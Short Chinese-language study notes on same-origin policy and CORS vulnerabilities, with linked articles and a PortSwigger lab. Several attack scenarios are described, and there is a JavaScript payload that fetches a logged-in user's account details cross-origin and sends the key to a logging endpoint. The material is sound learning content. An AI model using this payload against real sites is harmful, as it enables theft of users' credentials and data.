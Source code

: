 同源策略，跨域：<https://cloud.tencent.com/developer/article/1534714>
跨域攻击：<https://zhuanlan.zhihu.com/p/410621052>

<https://www.freebuf.com/articles/web/204023.html>

根目录crossdomain.xml文件 可跨域域名

CORS资源共享漏洞：
用户A在登录社交网站，这个时候访问了第三方的页面，第三方页面的js中有可以通过JSONP跨域去请求各种社交网站的个人信息，用户A访问了的社交网站的个人信息的接口如果是回调数据，则可获得个人信息。

用户A的资源接口设置了*所有请求可跨域，导致资源接口被不是A的站点请求导致滥用。

用户A在登录自己的后台或什么页面，如果XSS有恶意ajax脚本，可以请求用户A的网站敏感页面html数据，再把页面的传给攻击者服务器。

用户A的网站B，如果B网站的子域名的网站有XSS有恶意ajax脚本，可以请求用户A的B网站敏感页面html数据，再把页面的传给攻击者服务器。


^
跨域获取铭感信息key，再把key传递给黑阔
![](.topwrite/assets/image_1742744397237.png)
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
<https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack>
特征
![](.topwrite/assets/image_1742744460081.png)